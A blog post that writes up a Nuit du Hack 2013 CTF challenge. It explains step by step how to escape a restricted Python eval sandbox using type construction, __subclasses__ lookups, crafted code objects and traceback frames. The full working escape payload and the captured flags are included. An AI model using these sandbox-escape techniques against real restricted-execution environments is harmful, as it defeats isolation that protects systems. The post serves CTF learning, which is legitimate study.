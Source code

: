 ```yaml
---
title: 'Escapting a Python sandbox (NdH 2013 quals writeup)'
date: 2013-03-10T00:00:00+02:00
draft: false
---
```


The Nuit du Hack CTF 2013 Quals round was taking place yesterday. As usual,
I'll be posting a few writeups about fun exercises and/or solutions from this
CTF. If you want more, my teammate [w4kfu](http://blog.w4kfu.com/) should be
posting some writeups as well on his blog soon.

**TL;DR:**

{{< highlight python >}}
auth(''.__class__.__class__('haxx2',(),{'__getitem__':
lambda self,*a:'','__len__':(lambda l:l('function')( l('code')(
1,1,6,67,'d\x01\x00i\x00\x00i\x00\x00d\x02\x00d\x08\x00h\x02\x00'
'd\x03\x00\x84\x00\x00d\x04\x006d\x05\x00\x84\x00\x00d\x06\x006\x83'
'\x03\x00\x83\x00\x00\x04i\x01\x00\x02i\x02\x00\x83\x00\x00\x01z\n'
'\x00d\x07\x00\x82\x01\x00Wd\x00\x00QXd\x00\x00S',(None,'','haxx',
l('code')(1,1,1,83,'d\x00\x00S',(None,),('None',),('self',),'stdin',
'enter-lam',1,''),'__enter__',l('code')(1,2,3,87,'d\x00\x00\x84\x00'
'\x00d\x01\x00\x84\x00\x00\x83\x01\x00|\x01\x00d\x02\x00\x19i\x00'
'\x00i\x01\x00i\x01\x00i\x02\x00\x83\x01\x00S',(l('code')(1,1,14,83,
'|\x00\x00d\x00\x00\x83\x01\x00|\x00\x00d\x01\x00\x83\x01\x00d\x02'
'\x00d\x02\x00d\x02\x00d\x03\x00d\x04\x00d\n\x00d\x0b\x00d\x0c\x00d'
'\x06\x00d\x07\x00d\x02\x00d\x08\x00\x83\x0c\x00h\x00\x00\x83\x02'
'\x00S',('function','code',1,67,'|\x00\x00GHd\x00\x00S','s','stdin',
'f','',None,(None,),(),('s',)),('None',),('l',),'stdin','exit2-lam',
1,''),l('code')(1,3,4,83,'g\x00\x00\x04}\x01\x00d\x01\x00i\x00\x00i'
'\x01\x00d\x00\x00\x19i\x02\x00\x83\x00\x00D]!\x00}\x02\x00|\x02'
'\x00i\x03\x00|\x00\x00j\x02\x00o\x0b\x00\x01|\x01\x00|\x02\x00\x12'
'q\x1b\x00\x01q\x1b\x00~\x01\x00d\x00\x00\x19S',(0, ()),('__class__',
'__bases__','__subclasses__','__name__'),('n','_[1]','x'),'stdin',
'locator',1,''),2),('tb_frame','f_back','f_globals'),('self','a'),
'stdin','exit-lam',1,''),'__exit__',42,()),('__class__','__exit__',
'__enter__'),('self',),'stdin','f',1,''),{}))(lambda n:[x for x in
().__class__.__bases__[0].__subclasses__() if x.__name__ == n][0])})())
{{< /highlight >}}

<!--more-->

One of the exercises, called "Meow", gave us a remote restricted Python shell
with most builtins disabled:

{{< highlight python >}}
{'int': <type 'int'>, 'dir': <built-in function dir>,
'repr': <built-in function repr>, 'len': <built-in function len>,
'help': <function help at 0x2920488>}
{{< /highlight >}}

A few functions were available, namely `kitty()` displaying an ASCII cat,
and `auth(password)`. I assumed our goal was to bypass the authentication or to
find the password. Unfortunately, our Python commands are passed to `eval` in
expression mode, which means we can't use any Python statement: no assignment,
no print, no function/class definitions, etc. This makes things a lot harder to
work with. We'll have to use some Python magic (this writeup will be full of
it, I promise).

I first assumed `auth` was simply comparing the password to a constant string.
In this case, I could use a custom object with `__eq__` overwritten to always
return True. However, there is no trivial way to craft that object: we can't
define our own classes using the `class Foo:` syntax, we can't modify an
already existing object (no assignment), etc. This is where our first bit of
Python magic comes into place: we can directly instantiate a `type` object to
create a class object, then instantiate this class object. Here is how you
would do it:

{{< highlight python >}}
type('MyClass', (), {'__eq__': lambda self: True})
{{< /highlight >}}

However, we can't use `type` here: it is not defined in our builtins. We can
use a second trick: every Python object has a `__class__` attribute, which
gives us the type of an object. For example, `''.__class__` is `str`. But more
interesting: `str.__class__` is `type`! Which means we can
use `''.__class__.__class__` to instantiate our new type.

Unfortunately, the `auth` function is not simply comparing our object to a
string. It's doing a lot of other things to it: slicing it to 14 characters,
taking its length via `len()` and calling `reduce` with a strange `lambda` as
well. Without the code it's going to be hard to guess how to make an object
that behaves exactly like the function wants, and I don't like guessing. We
need more magic!

Enter code objects. Python functions are actually objects which are made of a
code object and a capture of their global variables. A code object contains the
bytecode of that function, as well as the constant objects it refers to, some
strings and names, and other metadata (number of arguments, number of locals,
stack size, mapping from bytecode to line number). You can get the code object
of a function using `myfunc.func_code`. This is forbidden in the restricted
mode of the Python interpreter, so we can't see the code of
the `auth` function. However, we can craft our own functions like we crafted
our own types!

You might wonder: why do we need to use code objects to craft functions when we
already have `lambda`? Simple: lambdas cannot contain statements. Random
crafted functions can! For example, we can create a function that prints its
argument to stdout:

{{< highlight python >}}
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
f = ftype(ctype(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S', (None,),
                (), ('s',), 'stdin', 'f', 1, ''), {})
f(42)
# Outputs 42
{{</ highlight >}}

There is a slight problem with this though: to get the type of a code object,
we need to access the `func_code` attribute, which is restricted. Fortunately,
we can use even more Python magic to find our type without accessing forbidden
attributes.

In Python, a type object has a `__bases__` attribute which returns the list of
all its base classes. It also has a `__subclasses__` method that returns the
list of all types that inherit from it. If we use `__bases__` on a random type,
we can reach the top of the type hierarchy (`object` type), then read the
subclasses of `object` to get a list of all types defined in the interpreter:

{{< highlight python >}}
>>> len(().__class__.__bases__[0].__subclasses__())
81
{{</ highlight >}}

We can then use this list to find our `function` and `code` types:

{{< highlight python >}}
>>> [x for x in ().__class__.__bases__[0].__subclasses__()
...  if x.__name__ == 'function'][0]
<type 'function'>
>>> [x for x in ().__class__.__bases__[0].__subclasses__()
...  if x.__name__ == 'code'][0]
<type 'code'>
{{</ highlight >}}

Now that we can build any function we want, what can we do? We can't directly
access the non restricted builtins: the functions we craft are still executed
in the restricted environment. We can get a non sandboxed function to call us:
the `auth` function call the `__len__` method of the object that we pass as a
parameter. This is however not enough to get out of the sandbox: our globals
are still the same and we can't for example import a module. I tried to look at
all the classes we could access via the `__subclasses__` trick to see if we
could get a reference to a useful module through there, but no dice. Even
getting Twisted to call one of our crafted functions via the `reactor` was not
enough. We could try to get a traceback object and use it to browse the stack
frames of our callers, but the only trivial ways to get a traceback object are
via the `inspect` or the `sys` modules which we can't import. After being
blocked on that problem, I went to work on other problems, slept a lot, and
woke up to the solution I needed!

There actually is another way to get a traceback object in Python without using
the standard library: context managers. They are a new feature of Python 2.6
which allow some kind of object life scoping in Python:

{{< highlight python >}}
class CtxMan:
    def __enter__(self):
        print 'Enter'
    def __exit__(self, exc_type, exc_val, exc_tb):
        print 'Exit:', exc_type, exc_val, exc_tb

with CtxMan():
    print 'Inside'
    error

# Output:
# Enter
# Inside
# Exit: <type 'exceptions.NameError'> name 'error' is not defined
        <traceback object at 0x7f1a46ac66c8>
{{</ highlight >}}

We can create a context manager object which will use the traceback object
passed to `__exit__` to display the global variables of our caller, caller
which is out of the restricted environment. To do that, we use a combination of
all our previous tricks. We create an anonymous type defining `__enter__` as a
simple lambda and `__exit__` as a lambda that accesses what we want in the
traceback and passes it to our `print` lambda (remember, we can't use
statements):

{{< highlight python >}}
''.__class__.__class__('haxx', (),
  {'__enter__': lambda self: None,
   '__exit__': lambda self, *a:
     (lambda l: l('function')(l('code')(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S',
                                        (None,), (), ('s',), 'stdin', 'f',
                                        1, ''), {})
     )(lambda n: [x for x in ().__class__.__bases__[0].__subclasses__()
                    if x.__name__ == n][0])
     (a[2].tb_frame.f_back.f_back.f_globals)})()
{{</ highlight >}}

We need to go deeper! Now, we need to use this context manager (that we will
call `ctx` in our next code snippets) in a function that will purposefully
raise an error in a `with` block:

{{< highlight python >}}
def f(self):
    with ctx:
        raise 42
{{</ highlight >}}

And we put `f` as the `__len__` of our crafted object that we pass to
the `auth` function:

{{< highlight python >}}
auth(''.__class__.__class__('haxx2', (), {
  '__getitem__': lambda *a: '',
  '__len__': f
})())
{{</ highlight >}}

Refer to the beginning of the article for the "real" inlined code. When ran on
the server, this causes the Python interpreter to run our `f` function, go
through the crafted context manager `__exit__`, which will access the globals
from our caller, which contain these two interesting values:

```
'FLAG2': 'ICanHazUrFl4g', 'FLAG1': 'Int3rnEt1sm4de0fc47'
```

Two flags?! Turns out that the same service was used for two successive
exercises. Double kill!

For more fun, by accessing the globals we can do more than simply reading: we
can also modify the flags! Using `f_globals.update({ 'FLAG1': 'lol', 'FLAG2':
'nope' })` the flags are changed until the next server restart. This was
apparently not planned by the organizers.

Anyway, I still don't know how we were supposed to solve this challenge
normally, but I think this "generic" solution is a good way to introduce people
to some nice Python black magic. Use it carefully, it's easy to get Python to
segfault using crafted code objects (exploiting the Python interpreter and
running an x86 shellcode via crafted Python bytecode will be left as an
exercise for the reader). Thanks to the Nuit du Hack organizers for this nice
exercise.
